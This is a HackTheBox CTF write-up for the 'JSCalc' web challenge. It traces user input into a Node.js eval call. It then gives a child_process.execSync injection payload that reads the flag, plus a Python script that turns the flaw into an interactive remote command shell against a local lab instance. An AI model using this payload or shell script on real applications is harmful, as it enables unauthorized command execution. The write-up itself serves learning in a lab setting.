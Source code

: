 ```yaml
---
title: HackTheBox -- JSCalc Writeup
date: 2025-08-28 00:00:00 +0800
categories: [web challenges]
tags: [Code-Injection,eval]
image:
    path: images/hackthebox.png
---
```

# HackTheBox — JSCalc [Easy]

In this write-up, we will solve the **JSCalc** challenge from HackTheBox. The goal is to analyze the web application, identify its weaknesses, and use them to gain command execution in order to retrieve the flag. Along the way, we will break down each step of the exploitation process to clearly demonstrate how the vulnerability can be discovered and leveraged.

Let’s navigate to the website.

![image.png](../images/JSCalc.png)

> As we see it’s a simple calculator
> 

Now let’s review The Code.

![image.png](../images/JSCalc%201.png)

> Notice that we found an api calculate endpoint that takes our input and call a function named calculate
> 

Now let’s go review the calculate function.

![image.png](../images/JSCalc%202.png)

> Notice that we found that the user input land in eval function
> 

Now let’s go write a payload that will get us the flag

```jsx
require('child_process').execSync('cat ../flag.txt').toString();
```

![image.png](../images/JSCalc%203.png)

> Amazing we go the flag!
> 

Now let’s go and automate the exploitation using python script

```python
import requests
import cmd

url = "http://localhost:1337/api/calculate"

def execute_command(command: str):
    data_json = {"formula": f"require('child_process').execSync('{command}').toString();"}
    r = requests.post(url, json=data_json, verify=False)
    print(r.text)

class MyShell(cmd.Cmd):
    prompt = "command> "

    def default(self, line):
        execute_command(line)

if __name__ == "__main__":
    MyShell().cmdloop()

```

![image.png](../images/JSCalc%204.png)

Now let’s go and run the script

![image.png](../images/JSCalc%205.png)

🎯 Conclusion

By following the exploitation path and carefully analyzing the challenge, we were able to identify the vulnerability, execute arbitrary commands, and successfully obtain the flag. This highlights the importance of secure coding practices and the risks of improper input handling in web applications.

*Written by **SecretRemo*** ✍️

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT